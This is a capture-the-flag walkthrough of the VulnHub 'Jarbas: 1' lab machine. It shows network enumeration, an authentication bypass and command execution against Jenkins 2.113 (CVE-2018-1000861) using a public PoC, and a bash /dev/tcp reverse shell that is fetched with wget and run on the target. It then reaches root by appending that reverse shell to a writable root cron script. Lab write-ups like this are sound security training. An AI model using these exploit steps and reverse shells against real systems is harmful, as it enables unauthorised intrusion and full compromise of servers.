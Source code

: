 # Jarbas: 1

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1   00:50:56:c0:00:01       VMware, Inc.
192.168.127.240 00:0c:29:e1:f2:ed       VMware, Inc.
192.168.127.254 00:50:56:e5:26:19       VMware, Inc.

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.055 seconds (124.57 hosts/sec). 3 responded
```

The IP address is `192.168.127.240`

## 2.Enumeration

```bash
root@kali: nmap -sV -sC -p- -v -oN nmap.out 192.168.127.240

Nmap scan report for 192.168.127.240
Host is up (0.00088s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 28:bc:49:3c:6c:43:29:57:3c:b8:85:9a:6d:3c:16:3f (RSA)
|   256 a0:1b:90:2c:da:79:eb:8f:3b:14:de:bb:3f:d2:e7:3f (ECDSA)
|_  256 57:72:08:54:b7:56:ff:c3:e6:16:6f:97:cf:ae:7f:76 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-title: Jarbas - O Seu Mordomo Virtual!
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
3306/tcp open  mysql   MariaDB (unauthorized)
8080/tcp open  http    Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
MAC Address: 00:0C:29:E1:F2:ED (VMware)
```

We immediately explore port 80 and 8080, in port 80 there is just a normal website that leads to nothing but

port 8080 serves a jenkins server with a login form. investigating internet to find the version of jenkin i found

this [guide](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security) which says navigating to `/oops` shows the version

of jenkins so :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/a3345335-5afc-4c3e-9bc3-9549de8f0c8c)
![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/d15f5741-2f13-4c0a-b840-e274631e23b9)

jenkins version is `2.113`, i just searched if there is any exploit for this version and i found this [link](https://github.com/gquere/pwn_jenkins#authenticationacl-bypass-cve-2018-1000861-jenkins-21501)

thas says there is a Authentication/ACL bypass if this command returns a valid data :

```bash
curl -k -4 -s https://example.com/securityRealm/user/admin/search/index?q=a
```

i used this command against the target and i got a response :

```bash
root@kali: curl -k -4 -s http://192.168.127.240:8080/securityRealm/user/admin/search/index?q=a

<!DOCTYPE html><html><head resURL="/static/f3ad8932" data-rooturl="" data-resurl="/static/f3ad8932">

<title>Search for 'a' [Jenkins]</title><link rel="stylesheet" href="/static/f3ad8932/css/layout-common.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/css/style.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/css/color.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/css/responsive-grid.css" type="text/css" /><link rel="shortcut icon" href="/static/f3ad8932/favicon.ico" type="image/vnd.microsoft.icon" /><link color="black" rel="mask-icon" href="/images/mask-icon.svg" /><script>var isRunAsTest=false; var rootURL=""; var resURL="/static/f3ad8932";</script><script src="/static/f3ad8932/scripts/prototype.js" type="text/javascript"></script><script src="/static/f3ad8932/scripts/behavior.js" type="text/javascript"></script><script src='/adjuncts/f3ad8932/org/kohsuke/stapler/bind.js' type='text/javascript'></script><script src="/static/f3ad8932/scripts/yui/yahoo/yahoo-min.js"></script><script src="/static/f3ad8932/scripts/yui/dom/dom-min.js"></script><script src="/static/f3ad8932/scripts/yui/event/event-min.js"></script><script src="/static/f3ad8932/scripts/yui/animation/animation-min.js"></script><script src="/static/f3ad8932/scripts/yui/dragdrop/dragdrop-min.js"></script><script src="/static/f3ad8932/scripts/yui/container/container-min.js"></script><script src="/static/f3ad8932/scripts/yui/connection/connection-min.js"></script><script src="/static/f3ad8932/scripts/yui/datasource/datasource-min.js"></script><script src="/static/f3ad8932/scripts/yui/autocomplete/autocomplete-min.js"></script><script src="/static/f3ad8932/scripts/yui/menu/menu-min.js"></script><script src="/static/f3ad8932/scripts/yui/element/element-min.js"></script><script src="/static/f3ad8932/scripts/yui/button/button-min.js"></script><script src="/static/f3ad8932/scripts/yui/storage/storage-min.js"></script><script src="/static/f3ad8932/scripts/hudson-behavior.js" type="text/javascript"></script><script src="/static/f3ad8932/scripts/sortable.js" type="text/javascript"></script><script>crumb.init("Jenkins-Crumb", "8f6180d50a5ba4e2893af9f93c568926");</script><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/container/assets/container.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/assets/skins/sam/skin.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/container/assets/skins/sam/container.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/button/assets/skins/sam/button.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/menu/assets/skins/sam/menu.css" type="text/css" /><meta name="ROBOTS" content="INDEX,NOFOLLOW" /><meta name="viewport" content="width=device-width, initial-scale=1" /><script src="/static/f3ad8932/jsbundles/page-init.js" type="text/javascript"></script></head><body data-model-type="hudson.search.Search" id="jenkins" class="yui-skin-sam two-column jenkins-2.113" data-version="2.113"><a href="#skip2content" class="skiplink">Skip to content</a><div id="page-head"><div id="header"><div class="logo"><a id="jenkins-home-link" href="/"><img src="/static/f3ad8932/images/headshot.png" alt="title" id="jenkins-head-icon" /><img src="/static/f3ad8932/images/title.png" alt="title" width="139" id="jenkins-name-icon" height="34" /></a></div><div class="login"> <a href="/login?from=%2FsecurityRealm%2Fuser%2Fadmin%2Fsearch%2Findex"><b>log in</b></a></div><div class="searchbox hidden-xs"><form method="get" name="search" action="/securityRealm/user/admin/search/" style="position:relative;" class="no-json"><div id="search-box-minWidth"></div><div id="search-box-sizer"></div><div id="searchform"><input name="q" placeholder="search" id="search-box" class="has-default-text" value="a" /> <a href="https://jenkins.io/redirect/search-box"><img src="/static/f3ad8932/images/16x16/help.png" style="width: 16px; height: 16px; " class="icon-help icon-sm" /></a><div id="search-box-completion"></div><script>createSearchBox("/securityRealm/user/admin/search/");</script></div></form></div></div><div id="breadcrumbBar"><tr id="top-nav"><td id="left-top-nav" colspan="2"><link rel='stylesheet' href='/adjuncts/f3ad8932/lib/layout/breadcrumbs.css' type='text/css' /><script src='/adjuncts/f3ad8932/lib/layout/breadcrumbs.js' type='text/javascript'></script><div class="top-sticker noedge"><div class="top-sticker-inner"><div id="right-top-nav"><div id="right-top-nav"><div class="smallfont"><a href="?auto_refresh=true">ENABLE AUTO REFRESH</a></div></div></div><ul id="breadcrumbs"><li class="item"><a href="/" class="model-link inside">Jenkins</a></li><li href="/" class="children"></li><li class="item"><a href="/securityRealm/" class=" inside">Jenkins’ own user database</a></li><li class="separator"></li><li class="item"><a href="/securityRealm/user/admin/" class="model-link inside">admin</a></li><li class="separator"></li></ul><div id="breadcrumb-menu-target"></div></div></div></td></tr></div></div><div id="page-body" class="clear"><div id="side-panel"></div><div id="main-panel"><a name="skip2content"></a><h1>Search for 'a'</h1><ol><li id="item_admin"><a href="?q=admin">admin</a></li><li id="item_master"><a href="?q=master">master</a></li></ol></div></div><footer><div class="container-fluid"><div class="row"><div class="col-md-6" id="footer"></div><div class="col-md-18"><span class="page_generated">Page generated: Nov 8, 2023 9:19:37 AM BRST</span><span class="jenkins_ver"><a href="https://jenkins.io/">Jenkins ver. 2.113</a></span></div></div></div></footer></body></html>
```

so now i'm pretty sure that this version of jenkins is vulnerable, so again i searched to find any exploit for this vulnerability (CVE-2018-1000861)

and i found [this](https://github.com/vulhub/vulhub/blob/master/jenkins/CVE-2018-1000861/poc.py) exploit on github which is just a PoC, but i used it in a creative way

just downloaded the python file and run it against the target :

```bash
root@kali: python2 poc.py http://192.168.127.240:8080/ 'whoami'                
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```

with this output i'm now 100% sure that i can get a shell but this script returns no command output but it realy executes the command on the server.

## 3.Gaining Shell

So i created a reverse shell on my kali machine and served it with python web server :

```bash
root@kali: cat shell.sh                                                                       
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/192.168.127.128/4444 <&1'

root@kali: python3 -m http.server 80                           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

and then used the `poc.py` file to download the shell.sh on the victim :

```bash
root@kali: python2 poc.py http://192.168.127.240:8080/ 'wget http://192.168.127.128/shell.sh -P /dev/shm'
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```

and then start a listener on your system and call the sell.sh file on the victim :

```bash
root@kali: python2 poc.py http://192.168.127.240:8080/ 'bash /dev/shm/shell.sh'
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```

and on my machine :

```bash
nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.240] 53568
bash: no job control in this shell
bash-4.2$ id
id
uid=997(jenkins) gid=995(jenkins) groups=995(jenkins) context=system_u:system_r:initrc_t:s0
```

yes we got the shell.

## 4.Privilege Escalation

Check crontab file :

```bash
bash-4.2$ cat /etc/crontab

SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
*/5 * * * * root /etc/script/CleaningScript.sh >/dev/null 2>&1
```

the file `CleaningScript.sh` is writable by user `jenkins` so just add the following line to the file :

```bash
bash -c 'exec bash -i &>/dev/tcp/192.168.127.128/4444 <&1'
```

content of the file :

```bash
bash-4.2$ cat /etc/script/CleaningScript.sh
#!/bin/bash

rm -rf /var/log/httpd/access_log.txt
bash -c 'exec bash -i &>/dev/tcp/192.168.127.128/4444 <&1'
```

and wait for the shell after 5 minutes :

```bash
root@kali: nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.240] 53572
bash: no job control in this shell

[root@jarbas ~]# id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:system_cronjob_t:s0-s0:c0.c1023

[root@jarbas ~]# ls
flag.txt

[root@jarbas ~]# cat flag.txt
Hey!

Congratulations! You got it! I always knew you could do it!
This challenge was very easy, huh? =)

Thanks for appreciating this machine.

@tiagotvrs 
```

this is how you can get root on this machine.

there is also another way, to find the user hashes in /access.html file on port 80 and then use metasploit to get the shell :)












